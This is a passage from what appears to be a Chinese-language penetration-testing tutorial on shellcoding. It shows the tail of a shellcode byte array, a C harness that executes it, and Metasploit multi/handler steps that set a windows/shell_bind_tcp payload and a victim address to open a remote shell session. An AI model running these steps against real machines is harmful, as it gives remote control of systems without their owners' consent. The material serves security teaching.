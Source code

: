 ```
"\x3b\x6b\xe8\x64\x95\x89\xf1\xf1\xde\x09\x2e\xc2\xe1\x90\xa3"
"\x7e\xc6\x82\x7d\x7e\x42\xf6\xd1\x29\x1c\xa0\x97\x83\xee\x1a"
"\x4e\x7f\xb9\xca\x17\xb3\x7a\x8c\x17\x9e\x0c\x70\xa9\x77\x49"
"\x8f\x06\x10\x5d\xe8\x7a\x80\xa2\x23\x3f\xb0\xe8\x69\x16\x59"
"\xb5\xf8\x2a\x04\x46\xd7\x69\x31\xc5\xdd\x11\xc6\xd5\x94\x14"
"\x82\x51\x45\x65\x9b\x37\x69\xda\x9c\x1d";

int main()
{
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

然后，构建并运行它：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00270.jpeg)

现在，它正在等待我们的连接。从我们的攻击机器上，启动 Metasploit：

```
$ msfconsole
```

然后，选择处理程序以连接到受害者机器：

```
 $ use exploit/multi/handler
```

现在，选择我们的有效载荷，即`windows/shell_bind_tcp`：

```
$ set payload windows/shell_bind_tcp
```

然后，设置受害者机器的 IP 地址：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00271.jpeg)

现在，设置 rhost：

```
$ set rhost 192.168.129.128
```

然后，让我们开始：

```
$ run
```

前面命令的输出可以在下面的截图中看到：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00272.jpeg)

现在，会话开始于`session 1`：

